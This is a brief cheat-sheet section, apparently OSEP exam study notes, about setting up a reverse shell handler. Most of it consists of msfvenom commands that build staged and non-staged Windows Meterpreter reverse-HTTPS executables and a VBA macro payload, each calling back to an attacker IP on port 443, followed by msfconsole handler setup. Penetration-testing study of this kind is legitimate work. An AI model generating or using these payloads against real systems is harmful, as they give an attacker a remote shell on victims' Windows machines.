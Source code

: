 # OSEP-Survival Joruney: Complete Guide

## Reverse Shell Handler 

### Metasploit Payload Generation
```
#Staged
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfstaged.exe

#NonStaged
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfnonstaged.exe

##VBA Staged
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```

### Metasploit Basic handler
```
sudo msfconsole -q
set payload windows/x64/meterpreter/reverse_https
set lhost 192.168.45.221
```

